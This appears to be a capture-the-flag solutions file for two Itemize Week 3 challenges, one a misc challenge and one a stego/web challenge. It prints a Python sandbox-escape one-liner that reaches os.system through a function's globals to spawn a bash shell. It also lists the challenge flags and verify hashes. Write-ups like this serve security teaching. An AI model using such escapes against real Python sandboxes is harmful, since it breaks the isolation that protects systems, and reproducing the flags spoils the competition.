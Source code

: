 # Week 3 - normal challenge

### Description

TBA

`nc 129.241.150.119 34403`

### Category

misc

### Solution

`print(show.__globals__['__builtins__'].__import__("os").system("bash"))`

Flag: `Itemize{n1ss3ns_l1st3_9000}`

Flag format: `Itemize{l33t_t3xt}`

Verify hash: `3d5dac89d1393d3513fde2d1b62eeb59`

# Week 3 - easy challenge

### Description

Styret i Itemize fikk i dag et meget spesielt julekort levert i postkassen. Julekortet har ingen bakside, og derfor heller ingen tekst knyttet til seg. Klarer du å finne ut hva julekortet inneholder?

https://cloud.itemize.no/s/iQnKKdQdaZ8Hx2j

### Category

stego/misc

### Solution

- Aperisolve the postcard for QR code
- Scanning the QR code sends to https://christmas.ctf.itemize.no/
- Change onclick event condition from false to true and click the button, or alternatively reverse the obfuscared code and go to https://christmas.ctf.itemize.no/h0h0h0.html for flag

Flag: `Itemize{3n_kj3d3l1g_g4v3}`

Flag format: `Itemize{l33t_t3xt}`

Verify hash: `ff5b07ad838abc9f43a358220d4829e4`
